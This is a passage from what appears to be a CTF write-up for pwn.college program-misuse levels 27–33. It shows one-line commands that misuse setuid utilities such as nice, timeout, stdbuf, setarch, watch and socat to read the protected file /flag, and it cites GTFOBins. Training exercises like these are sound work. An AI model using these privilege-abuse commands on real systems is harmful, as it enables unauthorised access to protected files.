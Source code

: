 **Level 27** : `nice`

```shell
$ nice cat /flag
pwn.college{redacted}
```

**Level 28** : `timeout`

```shell
$ timeout 1 cat /flag
pwn.college{redacted}
```

**Level 29** : `stdbuf`

{{< button href="<https://gtfobins.github.io/gtfobins/stdbuf/>" target="_blank" >}}
GTFOBins reference
{{< /button >}}

```shell
$ stdbuf -i0 cat /flag
pwn.college{redacted}
```

**Level 30** : `setarch`

{{< button href="<https://gtfobins.github.io/gtfobins/setarch/>" target="_blank" >}}
GTFOBins reference
{{< /button >}}

```shell
$ setarch $(arch) cat /flag
pwn.college{redacted}
```

**Level 31** : `watch`

```shell
$ watch -x cat /flag
Every 2.0s: cat /flag       program-misuse~level31: Thu Apr  4 21:20:30 2024

pwn.college{redacted}
```

**Level 32** : `socat`

{{< button href="<https://gtfobins.github.io/gtfobins/socat/#shell>" target="_blank" >}}
GTFOBins reference
{{< /button >}}

```shell
$ socat stdin exec:"cat /flag"
pwn.college{redacted}
```

---

**Requires some light programming to read the flag !**

**Level 33** : `whiptail`
